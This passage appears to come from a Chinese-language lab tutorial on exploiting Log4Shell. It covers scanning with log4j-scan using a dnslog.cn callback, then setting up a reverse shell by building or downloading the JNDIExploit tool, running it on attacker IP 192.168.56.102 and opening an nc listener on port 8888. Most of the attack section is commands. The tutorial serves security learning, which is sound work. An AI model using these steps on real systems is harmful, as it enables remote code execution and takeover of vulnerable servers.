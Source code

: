 ### 3.3 log4j-scan

项目地址：

- [fullhunt/log4j-scan](https://github.com/fullhunt/log4j-scan)

![](/img/2024-08-27-log4shell/6.png)

注意：

1. 指定`--dns-callback-provider dnslog.cn`解决`interact.sh server unavailable`

2. 创建一个空的`headers-none.txt`并指定为头部字段FUZZ，否则可能会被服务器认为是`Bad Message`而拒绝

## 0x04 反弹Shell

### 4.1 JNDI注入工具（推荐）

工具地址：

- [0x727/JNDIExploit](https://github.com/0x727/JNDIExploit)

```bash
git clone https://github.com/0x727/JNDIExploit.git
apt install maven
mvn clean package -DskipTests
cd target
```

源代码使用了`sun.misc.BASE64Encoder`，新版JDK编译会报`can not found symbol`错误，解决方法是用`java.util.Base64`类替换`sun.misc.BASE64Encoer`类

这里直接下载jar包：

```bash
wget https://github.com/0x727/JNDIExploit/releases/download/1.1/JNDIExploit.zip
unzip JNDIExploit.zip -d JNDIExploit
cd JNDIExploit
java -jar JNDIExploit-1.3-SNAPSHOT.jar -i 192.168.56.102
```

打开监听端口：

```bash
nc -lvvp 8888
```
